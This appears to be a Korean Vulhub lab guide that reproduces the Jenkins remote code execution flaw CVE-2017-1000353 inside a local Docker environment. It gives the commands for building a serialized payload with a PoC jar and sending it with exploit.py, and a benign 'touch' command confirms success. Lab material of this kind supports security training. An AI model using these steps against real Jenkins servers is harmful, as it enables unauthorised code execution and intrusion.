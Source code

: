 # Whitehat School `vulhub` 한글판
# Jenkins-CI 원격 코드 실행 취약점（CVE-2017-1000353）

## 원리

참고 :  https://blogs.securiteam.com/index.php/archives/3171

## 환경 구축

다음 명령을 실행해 jenkins 2.46.1 시작:

```
docker compose up -d
```

부팅이 완료되면 `http://your-ip:8080` 를 방문해 jenkins가 설치되어 있는것을 확인할 수 있다.

## 테스트 과정

### 1. Serialize 문자열 생성
참고 <https://github.com/vulhub/CVE-2017-1000353>

먼저 CVE-2017-1000353-1.1-SNAPSHOT-all.jar 다운받습니다. 이것은 POC를 생성하는 도구다.

다음 명령을 실행하여 바이트 코드 파일 생성 :

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser 생성된 바이트 코드 파일 이름
# "touch ..." 실행할 명령
```

코드를 실행하면 jenkins_poc.ser 파일이 생성된다. 이것은 직렬화된(Serialize) 문자열이다.

### 2. 패킷 전송, 명령 실행

[exploit.py]다운로드 https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py,

python3 실행 `python exploit.py http://your-ip:8080 jenkins_poc.ser`

방금 생성한 바이트 코드 파일을 대상에게 보냅니다:


docker에 들어가면 /tmp/success가 성공적으로 생성되어 취약점을 이용한 공격이 성공했음을 확인할 수 있다.